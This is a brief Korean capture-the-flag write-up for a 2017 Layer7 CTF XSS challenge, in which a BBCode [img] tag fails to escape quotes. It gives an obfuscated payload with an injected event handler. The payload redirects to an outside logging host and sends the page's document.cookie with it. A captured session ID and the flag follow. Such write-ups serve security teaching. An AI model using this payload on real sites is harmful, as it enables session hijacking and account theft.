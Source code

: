 # [2017 Layer7 CTF] DAILY LIFE OF DANIEL - Writeup

## XSS

BBCode에서 `"` 같은 문자들을 escape하지 않는걸 이용한 XSS 문제이다.

어드민의 쿠키를 탈취해서 세션 하이재킹하면 된다.

```
[img]#" onerroorr="location=String.fromCharCode(104,116,116,112,58,47,47,115,97,102,102,108,111,119,101,114,46,107,114,47,108,111,103,46,112,104,112,63,97,61)+document.cookie;[/img]
```
```
PHPSESSID=ttqv4c6o4pine58erbtq1s9cn3
```

___

## Answer

flag: `dlanswpsdjEoTskdy?wharneorlduTdma?`